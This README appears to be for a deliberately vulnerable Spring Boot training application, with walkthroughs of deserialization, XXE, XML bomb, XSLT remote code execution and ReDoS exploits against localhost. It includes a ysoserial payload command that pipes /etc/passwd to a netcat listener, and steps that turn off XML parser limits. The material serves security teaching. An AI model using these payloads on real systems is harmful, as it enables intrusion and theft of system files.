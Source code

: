 # Spring Boot - Backend vulnerabilities examples

## Movies with exploitation of:
### Unsafe Java object deserialization
https://drive.google.com/open?id=1YmJzBR355nG0v9avQdMEbOX7ddq99-N_ 
### XML External Entity (XXE)
https://drive.google.com/open?id=1j6UKJ1fp96cjEh2Cc18N9stsNgGcj2Pg
### XML bombs
https://drive.google.com/open?id=1FVg0YzWJyiSPPx3SPB7FBa3iYFuGTgTe
### RCE with XSLT
https://drive.google.com/open?id=1rBPmZQQ5y13uCjRMvdu_f0Zi8eKJDuuo
### ReDoS
https://drive.google.com/open?id=1_gjB1LlI_IvASfAKtE-eLKBGFIT1Oh_S

## Run & exploit

### Payloads
Payloads for exploitation can be found in payload folder of the project and its subdirectories.

### Unsafe Java object deserialization
- Generate payload with ysoserial toolkit (https://github.com/frohoff/ysoserial)
`java -jar ysoserial.jar CommonsCollections5 'bash -c {cat,/etc/passwd}|{nc,127.0.0.1,1234}' > serialization_issue.dat`
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee'
- Upload 'serialization_issue.dat' prepared with ysoserial toolkit
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### XML External Entity (XXE)
- Run application
`mvn spring-boot:run`
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XEE' from imported collection
- Check response of server to read /etc/passwd content

### XML bombs
- Run application with additional parameters
`mvn spring-boot:run -Djdk.xml.entityExpansionLimit=0 -Djdk.xml.entityReplacementLimit=0 -Djdk.xml.totalEntitySizeLimit=0`
Note that you turn off upper boundary limits for XML parser. Additional `-Xmx1024m` parameter could be added in case memory would be consumed too quickly.
- Run postman, import collection 'XXE.postman_collection.json' and environment 'local - 8080.postman_environment.json'
- Send request 'Attendee upload xml - XML Bomb' from imported collection
- Monitor usage of CPU and Memory for java process

### RCE with XSLT
- Run application
`mvn spring-boot:run`
- Open another terminal and run nc in listen mode:
`nc -l -p 1234`
- Open in browser 'http://localhost:8080/upload-attendee-xslt'
- Copy payload available in file 'xml_payload_attendee.txt' to field with 'XML' label
- Copy payload available in file 'xslt_payload_attendee.txt' to field with 'XSLT' label
- Press 'Transform button'
- Check terminal with running nc in listen mode to check see content of your /etc/passwd sent by application.

### ReDoS
- Run application
`mvn spring-boot:run`
- Open in browser 'http://localhost:8080/attendeemng'
- Fill in fields 'First Name', 'Last Name' with arbitrary values
- Fill in 'Email' field with multiple 'a' characters eg. 'aaaaaaaaaaaaaaaaaaaaaaaaaa' and press 'Add Attendee'
- Retry addition of attendee with email that has additional 'a' characters until validation doesn't finish in "reasonable" time amount.
